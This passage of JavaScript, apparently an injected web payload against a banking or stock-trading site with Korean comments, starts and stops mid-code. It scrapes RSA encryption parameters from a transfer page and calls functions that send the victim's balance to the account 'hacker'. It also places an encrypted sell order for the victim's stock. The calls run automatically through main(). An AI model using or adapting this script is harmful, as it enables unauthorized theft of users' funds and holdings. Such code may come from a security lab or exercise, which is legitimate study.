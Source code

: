 ```
                        'Accept': 'text/plain'
                    }
                });
 
                if (!transfer_res.ok) {
                    throw new Error('Network response was not ok');
                }
 
                const tranfer_text = await transfer_res.text();
                const userIdInput = 'hacker'; 
                const modulusMatch = tranfer_text.match(/id="RSAModulus"\s+value="([^"]+)"/);
                const Exponent = tranfer_text.match(/id="RSAExponent"\s+value="([^"]+)"/);
 
                if (userIdInput && modulusMatch && Exponent) {
                    const RSAModulus = modulusMatch[1];
                    const RSAExponent = Exponent[1]; 
                    await ajaxSend(RSAModulus, RSAExponent, userIdInput, bal);
                } else {
                    console.log("Required data not found in transfer response.");
                }
            } else {
                console.log("ACCOUNT_BALANCE not found.");
            }
        } catch (error) {
            console.error('Fetch error:', error);
        }
    }
 
    async function main() {
        await getStock();
        await sendMoney();
    }
 
    main();
 
    async function performAjaxSell(RSAModulus, RSAExponent, UserId, stock, haveUnit) {
    var PRICE = '100';
    var UNIT = haveUnit;
    var USERID = UserId;
    var STOCK = stock;
 
    const rsa = new RSAKey();
    rsa.setPublic(RSAModulus, RSAExponent);
    let data = {
        stock: STOCK,
        price: PRICE,
        userId: USERID,
        unit: UNIT
    };
    let e2eData = rsa.encrypt(JSON.stringify(data));
 
// Promise를 반환하는 jQuery Ajax 사용
    try {
        const response = await $.ajax({
            url: '/detailSell',
            type: 'POST',
            contentType: 'application/json',
            data: e2eData
        });
        alert(response.MSG);
    } catch (error) {
        alert('오류 발생: ' + error.statusText);
    }
```